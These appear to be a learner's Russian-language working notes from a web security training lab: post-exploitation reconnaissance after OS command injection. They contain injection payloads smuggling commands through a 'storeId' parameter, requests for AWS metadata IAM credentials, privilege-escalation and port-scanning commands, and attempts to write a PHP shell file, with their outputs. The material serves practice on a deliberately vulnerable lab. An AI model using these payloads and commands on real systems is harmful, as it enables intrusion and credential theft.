==Попробовать войти ### **БД (MySQL/PostgreSQL)**==
mysql -u root -e "show databases;" 2>/dev/null    нет ответа
 mysql -u carlos -e "select user();" 2>/dev/null      нет ответа
==PostgreSQL==
psql -U postgres -c "\l" 2>/dev/null        нет ответа


------


==открыт ли Docker API (если есть контейнеры)==
curl http://127.0.0.1:2375/version
```bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
curl: (7) Failed to connect to 127.0.0.1 port 2375: Connection refused

```


-----


==Если сайт на базе CMS, часто забывают удалить .git== (на будущее мне)
find /var/www -name ".git" -type d 2>/dev/null   нет 
==Вытащить последние коммиты (пароли!)==
cat /var/www/html/.git/config       нет 
git --git-dir=/var/www/html/.git log -p -1
```bash
fatal: not a git repository: '/var/www/html/.git'

```

-----

==Проверить, куда можно писать==
find /var/www -writable -type d 2>/dev/null | head -5
```bash
/var/www
/var/www/images

```

-------


------

## AWS metadata (если сервер в облаке)
`curl http://169.254.169.254/latest/meta-data/iam/security-credentials/`
```bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0
curl: (7) Failed to connect to 169.254.169.254 port 80: Connection refused

```

далее запрос
```bash
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

ответ
```bash
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0
curl: (7) Failed to connect to 169.254.169.254 port 80: Connection refused
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0
curl: (7) Failed to connect to 169.254.169.254 port 80: Connection refused

```

запрос 
`ls /.dockerenv cat /proc/1/cgroup | grep docker`
ответ
`/.dockerenv

запрос dmidecode -s system-manufacturer 2>/dev/null  нет ответа
mount | grep "/var/www" нет ответа
ls -la /var/run/docker.sock  неверный путь

запрос `curl http://172.17.0.1:22`
ответ
```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0
curl: (7) Failed to connect to 172.17.0.1 port 22: Connection refused

```

запрос на всякий случая `nc -zv 127.0.0.1 1-1000` нет ответа

запрос 
```
which nc || echo "nc not installed"
nc -h 2>&1 | head -1
```
ошибка sh: 2: Syntax error: end of file unexpected

запрос `ping -c 2 172.17.0.1`
нет ответа

запрос `arp -n 2>/dev/null || ip neigh show`
`172.17.0.1 dev eth0 lladdr 02:42:98:25:38:6a REACHABLE


запрос
```
for port in 22 80 443 2375 2376 3306 5432 6379 8080 9200 27017; do timeout 0.5 bash -c "echo >/dev/tcp/172.17.0.1/$port" 2>/dev/null && echo "✅ PORT $port: OPEN" || echo "❌ PORT $port: closed/filtered" done
```
ответ  Syntax error: end of file unexpected (expecting "done")


запрос `productId=1&storeId=1|mount | grep -E "/(dev|proc|sys|host|mnt|media|root)"`
ответ
```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3619

proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (ro,nosuid,nodev,noexec,relatime,xattr,release_agent=/usr/lib/systemd/systemd-cgroups-agent,name=systemd)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (ro,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/freezer type cgroup (ro,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/devices type cgroup (ro,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/memory type cgroup (ro,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (ro,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/hugetlb type cgroup (ro,nosuid,nodev,noexec,relatime,hugetlb)
cgroup on /sys/fs/cgroup/pids type cgroup (ro,nosuid,nodev,noexec,relatime,pids)
cgroup on /sys/fs/cgroup/blkio type cgroup (ro,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/cpuset type cgroup (ro,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/perf_event type cgroup (ro,nosuid,nodev,noexec,relatime,perf_event)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
/dev/nvme0n1p1 on /usr/sbin/docker-init type xfs (ro,noatime,attr2,inode64,noquota)
devtmpfs on /dev/random type devtmpfs (rw,nosuid,size=985768k,nr_inodes=246442,mode=755)
/dev/nvme0n1p1 on /ecs-execute-command-d21688ea-8fa1-4dc3-8eb7-74706e1f695c/amazon-ssm-agent type xfs (ro,noatime,attr2,inode64,noquota)
/dev/nvme0n1p1 on /ecs-execute-command-d21688ea-8fa1-4dc3-8eb7-74706e1f695c/ssm-agent-worker type xfs (ro,noatime,attr2,inode64,noquota)
/dev/nvme0n1p1 on /ecs-execute-command-d21688ea-8fa1-4dc3-8eb7-74706e1f695c/ssm-session-worker type xfs (ro,noatime,attr2,inode64,noquota)
/dev/nvme0n1p1 on /etc/resolv.conf type xfs (rw,noatime,attr2,inode64,noquota)
/dev/nvme0n1p1 on /etc/hostname type xfs (rw,noatime,attr2,inode64,noquota)
/dev/nvme0n1p1 on /etc/hosts type xfs (rw,noatime,attr2,inode64,noquota)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
/dev/nvme0n1p1 on /ecs-execute-command-d21688ea-8fa1-4dc3-8eb7-74706e1f695c/certs/amazon-ssm-agent.crt type xfs (ro,noatime,attr2,inode64,noquota)
/dev/nvme0n1p1 on /ecs-execute-command-d21688ea-8fa1-4dc3-8eb7-74706e1f695c/configuration/amazon-ssm-agent.json type xfs (ro,noatime,attr2,inode64,noquota)
/dev/nvme0n1p1 on /ecs-execute-command-d21688ea-8fa1-4dc3-8eb7-74706e1f695c/configuration/seelog.xml type xfs (ro,noatime,attr2,inode64,noquota)
/dev/nvme0n1p1 on /var/log/amazon/ssm type xfs (rw,noatime,attr2,inode64,noquota)
proc on /proc/bus type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/fs type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/irq type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sys type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sysrq-trigger type proc (ro,nosuid,nodev,noexec,relatime)
tmpfs on /proc/acpi type tmpfs (ro,relatime)
tmpfs on /proc/kcore type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/keys type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/latency_stats type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/timer_list type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/sched_debug type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /sys/firmware type tmpfs (ro,relatime)

```


зарпос `echo "test" > /var/log/amazon/ssm/test.txt`
ответ `sh: 1: cannot create /var/log/amazon/ssm/test.txt: Permission denied
`
зарпос `ls -la /var/log/amazon/ssm/test.txt`
ответ `ls: cannot access '/var/log/amazon/ssm/test.txt': No such file or directory

запрос `TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600") curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/`

ответ
```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0
curl: (7) Failed to connect to 169.254.169.254 port 80: Connection refused
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0
curl: (7) Failed to connect to 169.254.169.254 port 80: Connection refused

```


запрос 
`cat /ecs-execute-command-*/configuration/amazon-ssm-agent.json`
ответ
```
{
	"Mgs": {
		"Region": "",
		"Endpoint": "",
		"StopTimeoutMillis": 20000,
		"SessionWorkersLimit": 1000
	},
	"Agent": {
		"Region": "",
		"OrchestrationRootDir": "",
		"ContainerMode": true
	}
}
```

запрос `curl http://169.254.169.254/latest/meta-data/iam/security-credentials/`
ответ
```

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0
curl: (7) Failed to connect to 169.254.169.254 port 80: Connection refused

```


запрос `id`
ответ 
```
uid=12001(peter-MLNF8M) gid=12001(peter) groups=12001(peter)

```


запрос `groups`
ответ 
```
peter
```


запрос `cat /etc/group | grep peter`
ответ 
```
peter:x:12001:user
```


запрос `find / -perm -4000 -ls 2>/dev/null  +++ find / -perm -2000 -ls 2>/dev/null`
ответ  нет ответов


запрос `find / -user carlos -type f -readable 2>/dev/null | head -20`
ответ 
```
/home/carlos/.bash_logout
/home/carlos/.bashrc
/home/carlos/.profile
```


запрос `capsh --print`
ответ 
```
Current: =
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_setgid,cap_setuid,cap_net_bind_service,cap_net_admin,cap_net_raw,cap_audit_write
Ambient set =
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=12001(peter-MLNF8M) euid=12001(peter-MLNF8M)
gid=12001(peter)
groups=12001(peter)
Guessed mode: UNCERTAIN (0)
```


запрос `getcap -r / 2>/dev/null`
ответ 
```bash
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/ping = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```


ps aux | grep ^user       нет
find / -user user -type f -readable 2>/dev/null | head -20    нет
ls -la /academy   нет
find /academy -type f 2>/dev/null  нет

запрос `ps aux | grep -E "^(root)" | grep -v grep`
ответ 
```bash
root         1  0.0  0.0    940     4 ?        Ss   18:27   0:00 /sbin/docker-init -- /academy/run.sh java -Dlog4j2.formatMsgNoLookups=true -Dnetworkaddress.cache.ttl=60 -Dnetworkaddress.cache.negative.ttl=10 -jar /academy/jars/lab-base-snapshot.jar
root         7  0.0  0.1   3980  3004 ?        S    18:27   0:00 /bin/bash /academy/run.sh java -Dlog4j2.formatMsgNoLookups=true -Dnetworkaddress.cache.ttl=60 -Dnetworkaddress.cache.negative.ttl=10 -jar /academy/jars/lab-base-snapshot.jar
root        17  0.0  0.7 1846236 15164 ?       Ssl  18:27   0:00 /ecs-execute-command-d21688ea-8fa1-4dc3-8eb7-74706e1f695c/amazon-ssm-agent
root        37  0.0  0.0   2640   704 ?        S    18:27   0:00 inotifywait -m /academy/aws_credentials --timefmt %y-%m-%d %H:%M:%S.000 --format NOTIFY [%T] %w %e %f
root        68  0.0  1.3 1782132 25920 ?       Sl   18:27   0:00 /ecs-execute-command-d21688ea-8fa1-4dc3-8eb7-74706e1f695c/ssm-agent-worker
root       325  0.0  0.1   6340  3924 ?        S    18:27   0:00 sudo -EHu academy java -Dlog4j2.formatMsgNoLookups=true -Dnetworkaddress.cache.ttl=60 -Dnetworkaddress.cache.negative.ttl=10 -jar /academy/jars/lab-base-snapshot.jar hot
```


запрос `sudo -EHu academy java ...`
ответ 
```bash
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper

```


запрос `env | grep -E "JAVA|CLASSPATH"`
ответ 
```bash
SUDO_COMMAND=/usr/bin/sh -c bash /home/peter-MLNF8M/stockreport.sh 1 1|env | grep -E "JAVA|CLASSPATH"

```


запрос `/usr/bin/ping = cap_net_raw+ep`
ответ 
```
/usr/bin/ping: ep: Temporary failure in name resolution

```


запрос `cat /academy/run.sh`
ответ 
```
cat: /academy/run.sh: Permission denied
```


запрос `stat /academy`
ответ 
```
  File: /academy
  Size: 25        	Blocks: 0          IO Block: 4096   directory
Device: 4bh/75d	Inode: 24322811    Links: 1
Access: (0500/dr-x------)  Uid: (10000/ academy)   Gid: (10000/ academy)
Access: 1970-01-01 00:00:00.000000000 +0000
Modify: 2026-02-11 18:27:52.220971937 +0000
Change: 2026-02-11 18:27:52.220971937 +0000
 Birth: -
```


запрос `env | grep -E "JAVA|CLASSPATH"`
ответ 
```
SUDO_COMMAND=/usr/bin/sh -c bash /home/peter-MLNF8M/stockreport.sh 1 1|env | grep -E "JAVA|CLASSPATH"
```

``` АРХИТЕКТУРА ТЕКУЩАЯ
┌─────────────────────────────────────────────────────────┐
│                     ХОСТ (вне контейнера)               │
│  (недоступен, порты закрыты, но ARP показывает связь)   │
└─────────────────────────────────────────────────────────┘
                              ▲
                              │ bridge (172.17.0.1)
                              ▼
┌─────────────────────────────────────────────────────────┐
│                    DOCKER-КОНТЕЙНЕР                     │
│  ┌─────────────────────────────────────────────────┐   │
│  │         PID 1: docker-init (root)              │   │
│  │              └── /academy/run.sh (root)        │   │
│  │                    └── sudo -u academy (root)  │   │
│  │                         └── java (academy)     │   │
│  └─────────────────────────────────────────────────┘   │
│                                                         │
│  ┌─────────────────────────────────────────────────┐   │
│  │         SSM Agent (root) — offline             │   │
│  └─────────────────────────────────────────────────┘   │
│                                                         │
│  ┌─────────────────────────────────────────────────┐   │
│  │      ТЫ (peter-MLNF8M) — command injection     │   │
│  └─────────────────────────────────────────────────┘   │
└─────────────────────────────────────────────────────────┘
```

echo "<?php phpinfo(); ?>" > /var/www/images/test.php  нет ответа

## переключаюсь на user

запрос `find / -group peter -readable 2>/dev/null | head -20`
ответ 
```

/home/peter-MLNF8M
/home/peter-MLNF8M/.bash_logout
/home/peter-MLNF8M/.bashrc
/home/peter-MLNF8M/.profile
/home/peter-MLNF8M/stockreport.sh
/proc/1109
/proc/1109/task
/proc/1109/task/1109
/proc/1109/task/1109/net
/proc/1109/task/1109/attr
/proc/1109/net
/proc/1109/attr
/proc/1112
/proc/1112/task
/proc/1112/task/1112
/proc/1112/task/1112/fd
/proc/1112/task/1112/fdinfo
/proc/1112/task/1112/fdinfo/0
/proc/1112/task/1112/fdinfo/1
/proc/1112/task/1112/fdinfo/2
```

запрос `find / -user user -readable 2>/dev/null | head -20`
ответ 
```
/var/log/dnsmasq
```


запрос `ps aux | grep academy`
ответ 
```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2520

root         1  0.0  0.0    940     4 ?        Ss   18:27   0:00 /sbin/docker-init -- /academy/run.sh java -Dlog4j2.formatMsgNoLookups=true -Dnetworkaddress.cache.ttl=60 -Dnetworkaddress.cache.negative.ttl=10 -jar /academy/jars/lab-base-snapshot.jar
root         7  0.0  0.1   3980  2900 ?        S    18:27   0:00 /bin/bash /academy/run.sh java -Dlog4j2.formatMsgNoLookups=true -Dnetworkaddress.cache.ttl=60 -Dnetworkaddress.cache.negative.ttl=10 -jar /academy/jars/lab-base-snapshot.jar
root        37  0.0  0.0   2640   672 ?        S    18:27   0:00 inotifywait -m /academy/aws_credentials --timefmt %y-%m-%d %H:%M:%S.000 --format NOTIFY [%T] %w %e %f
dnsmasq    322  0.0  0.0   2944   156 ?        S    18:27   0:00 dnsmasq --user=dnsmasq --log-queries=extra --log-facility=- --bogus-priv --no-resolv --server=/api.openai.com/169.254.169.253 --server=/*.api.openai.com/ --address=/weliketoshop.net/192.168.0.1 --server=/burpcollaborator.net/169.254.169.253 --server=/oastify.com/169.254.169.253 --server=/cms-0a2b00a10479b62481703afc00df0051.web-security-academy.net/169.254.169.253 --server=/0a2b00a10479b62481703afc00df0051.web-security-academy.net/169.254.169.253 --server=/exploit-0ad900f004a0b6d5818e3935015c0064.exploit-server.net/169.254.169.253 --server=/oauth-0a8500f504ebb6ef8121387e0206000b.oauth-server.net/169.254.169.253 --server=/ssmmessages.eu-west-1.amazonaws.com/169.254.169.253 --server=/1.web-security-academy.net/169.254.169.253 --server=/2.web-security-academy.net/169.254.169.253 --server=/3.web-security-academy.net/169.254.169.253 --server=/*.1.web-security-academy.net/ --server=/*.2.web-security-academy.net/ --server=/*.3.web-security-academy.net/ --server=/#/
root       325  0.0  0.1   6340  3880 ?        S    18:27   0:00 sudo -EHu academy java -Dlog4j2.formatMsgNoLookups=true -Dnetworkaddress.cache.ttl=60 -Dnetworkaddress.cache.negative.ttl=10 -jar /academy/jars/lab-base-snapshot.jar hot
academy    326  0.6  6.7 2644684 134568 ?      Sl   18:27   0:14 java -Dlog4j2.formatMsgNoLookups=true -Dnetworkaddress.cache.ttl=60 -Dnetworkaddress.cache.negative.ttl=10 -jar /academy/jars/lab-base-snapshot.jar hot
root      1134  0.0  0.2   6344  4200 ?        S    19:02   0:00 sudo -H -u peter-MLNF8M sh -c bash /home/peter-MLNF8M/stockreport.sh 1 1|ps aux | grep academy
peter-M+  1137  0.0  0.0   2612   588 ?        S    19:02   0:00 sh -c bash /home/peter-MLNF8M/stockreport.sh 1 1|ps aux | grep academy
peter-M+  1140  0.0  0.0   3308   644 ?        S    19:02   0:00 grep academy

```

=======---=======

запрос `echo "<?php echo 'RCE'; ?>" > /var/www/images/shell.php`
ответ 
```
echo "<?php echo 'RCE'; ?>" > /var/www/images/shell.php
```


запрос `cat /var/log/dnsmasq tail -20 /var/log/dnsmasq`
ответ 
```
cat: invalid option -- '2'
Try 'cat --help' for more information.
```


запрос `productId=1&storeId=1|cat /var/log/dnsmasq`
ответ 
```
cat: /var/log/dnsmasq: Is a directory
```

=========

запрос `productId=1&storeId=1|ls -la /var/log/dnsmasq/`
ответ 
```
total 28
drwxr-xr-x 2 user user    25 Feb 11 18:27 .
drwxr-xr-x 1 root root    35 Feb 11 18:27 ..
-rw-r--r-- 1 root root 24927 Feb 11 19:13 dnsmasq.log
```


запрос `cat /var/log/dnsmasq/dnsmasq.log`
ответ 
```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 24927

Feb 11 18:27:53 dnsmasq[322]: started, version 2.87 cachesize 150
Feb 11 18:27:53 dnsmasq[322]: compile time options: IPv6 GNU-getopt no-DBus no-UBus no-i18n no-IDN DHCP DHCPv6 no-Lua TFTP no-conntrack ipset no-nftset auth no-cryptohash no-DNSSEC loop-detect inotify dumpfile
Feb 11 18:27:53 dnsmasq[322]: using nameserver 169.254.169.253#53 for domain api.openai.com 
Feb 11 18:27:53 dnsmasq[322]: using nameserver 169.254.169.253#53 for domain burpcollaborator.net 
Feb 11 18:27:53 dnsmasq[322]: using nameserver 169.254.169.253#53 for domain oastify.com 
Feb 11 18:27:53 dnsmasq[322]: using nameserver 169.254.169.253#53 for domain cms-0a2b00a10479b62481703afc00df0051.web-security-academy.net 
Feb 11 18:27:53 dnsmasq[322]: using nameserver 169.254.169.253#53 for domain 0a2b00a10479b62481703afc00df0051.web-security-academy.net 
Feb 11 18:27:53 dnsmasq[322]: using nameserver 169.254.169.253#53 for domain exploit-0ad900f004a0b6d5818e3935015c0064.exploit-server.net 
Feb 11 18:27:53 dnsmasq[322]: using nameserver 169.254.169.253#53 for domain oauth-0a8500f504ebb6ef8121387e0206000b.oauth-server.net 
Feb 11 18:27:53 dnsmasq[322]: using nameserver 169.254.169.253#53 for domain ssmmessages.eu-west-1.amazonaws.com 
Feb 11 18:27:53 dnsmasq[322]: using nameserver 169.254.169.253#53 for domain 1.web-security-academy.net 
Feb 11 18:27:53 dnsmasq[322]: using nameserver 169.254.169.253#53 for domain 2.web-security-academy.net 
Feb 11 18:27:53 dnsmasq[322]: using nameserver 169.254.169.253#53 for domain 3.web-security-academy.net 
Feb 11 18:27:53 dnsmasq[322]: using only locally-known addresses for #
Feb 11 18:27:53 dnsmasq[322]: using only locally-known addresses for .3.web-security-academy.net
Feb 11 18:27:53 dnsmasq[322]: using only locally-known addresses for .2.web-security-academy.net
Feb 11 18:27:53 dnsmasq[322]: using only locally-known addresses for .1.web-security-academy.net
Feb 11 18:27:53 dnsmasq[322]: using only locally-known addresses for .api.openai.com
Feb 11 18:27:53 dnsmasq[322]: read /etc/hosts - 7 addresses
Feb 11 18:27:59 dnsmasq[322]: 1 127.0.0.1/48505 query[PTR] 0.0.0.0.in-addr.arpa from 127.0.0.1
Feb 11 18:27:59 dnsmasq[322]: 1 127.0.0.1/48505 config 0.0.0.0 is NXDOMAIN
Feb 11 18:27:59 dnsmasq[322]: 2 127.0.0.1/49350 query[PTR] 0.0.0.0.in-addr.arpa from 127.0.0.1
Feb 11 18:27:59 dnsmasq[322]: 2 127.0.0.1/49350 config 0.0.0.0 is NXDOMAIN
Feb 11 18:27:59 dnsmasq[322]: 3 127.0.0.1/36579 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:27:59 dnsmasq[322]: 3 127.0.0.1/36579 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:27:59 dnsmasq[322]: 3 127.0.0.1/36579 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:27:59 dnsmasq[322]: 3 127.0.0.1/36579 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:28:35 dnsmasq[322]: 4 127.0.0.1/43011 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:28:35 dnsmasq[322]: 4 127.0.0.1/43011 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:28:35 dnsmasq[322]: 4 127.0.0.1/43011 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:28:35 dnsmasq[322]: 4 127.0.0.1/43011 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:29:29 dnsmasq[322]: 5 127.0.0.1/47080 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:29:29 dnsmasq[322]: 5 127.0.0.1/47080 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:29:29 dnsmasq[322]: 5 127.0.0.1/47080 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:29:29 dnsmasq[322]: 5 127.0.0.1/47080 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:30:29 dnsmasq[322]: 6 127.0.0.1/54560 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:30:29 dnsmasq[322]: 6 127.0.0.1/54560 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:30:29 dnsmasq[322]: 6 127.0.0.1/54560 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:30:29 dnsmasq[322]: 6 127.0.0.1/54560 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:31:29 dnsmasq[322]: 7 127.0.0.1/34261 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:31:29 dnsmasq[322]: 7 127.0.0.1/34261 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:31:29 dnsmasq[322]: 7 127.0.0.1/34261 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:31:29 dnsmasq[322]: 7 127.0.0.1/34261 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:32:29 dnsmasq[322]: 8 127.0.0.1/55313 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:32:29 dnsmasq[322]: 8 127.0.0.1/55313 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:32:29 dnsmasq[322]: 8 127.0.0.1/55313 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:32:29 dnsmasq[322]: 8 127.0.0.1/55313 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:33:29 dnsmasq[322]: 9 127.0.0.1/48301 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:33:29 dnsmasq[322]: 9 127.0.0.1/48301 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:33:29 dnsmasq[322]: 9 127.0.0.1/48301 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:33:29 dnsmasq[322]: 9 127.0.0.1/48301 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:34:29 dnsmasq[322]: 10 127.0.0.1/32928 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:34:29 dnsmasq[322]: 10 127.0.0.1/32928 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:34:29 dnsmasq[322]: 10 127.0.0.1/32928 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:34:29 dnsmasq[322]: 10 127.0.0.1/32928 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:35:29 dnsmasq[322]: 11 127.0.0.1/33599 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:35:29 dnsmasq[322]: 11 127.0.0.1/33599 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:35:29 dnsmasq[322]: 11 127.0.0.1/33599 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:35:29 dnsmasq[322]: 11 127.0.0.1/33599 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:36:29 dnsmasq[322]: 12 127.0.0.1/52280 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:36:29 dnsmasq[322]: 12 127.0.0.1/52280 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:36:29 dnsmasq[322]: 12 127.0.0.1/52280 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:36:29 dnsmasq[322]: 12 127.0.0.1/52280 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:37:29 dnsmasq[322]: 13 127.0.0.1/58583 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:37:29 dnsmasq[322]: 13 127.0.0.1/58583 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:37:29 dnsmasq[322]: 13 127.0.0.1/58583 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:37:29 dnsmasq[322]: 13 127.0.0.1/58583 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:38:29 dnsmasq[322]: 14 127.0.0.1/58362 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:38:29 dnsmasq[322]: 14 127.0.0.1/58362 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:38:29 dnsmasq[322]: 14 127.0.0.1/58362 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:38:29 dnsmasq[322]: 14 127.0.0.1/58362 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:39:29 dnsmasq[322]: 15 127.0.0.1/58385 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:39:29 dnsmasq[322]: 15 127.0.0.1/58385 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:39:29 dnsmasq[322]: 15 127.0.0.1/58385 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:39:29 dnsmasq[322]: 15 127.0.0.1/58385 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:40:29 dnsmasq[322]: 16 127.0.0.1/39400 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:40:29 dnsmasq[322]: 16 127.0.0.1/39400 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:40:29 dnsmasq[322]: 16 127.0.0.1/39400 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:40:29 dnsmasq[322]: 16 127.0.0.1/39400 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:41:29 dnsmasq[322]: 17 127.0.0.1/51314 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:41:29 dnsmasq[322]: 17 127.0.0.1/51314 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:41:29 dnsmasq[322]: 17 127.0.0.1/51314 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:41:29 dnsmasq[322]: 17 127.0.0.1/51314 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:42:29 dnsmasq[322]: 18 127.0.0.1/58693 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:42:29 dnsmasq[322]: 18 127.0.0.1/58693 forwarded 2.web-security-academy.net to 169.254.169.253
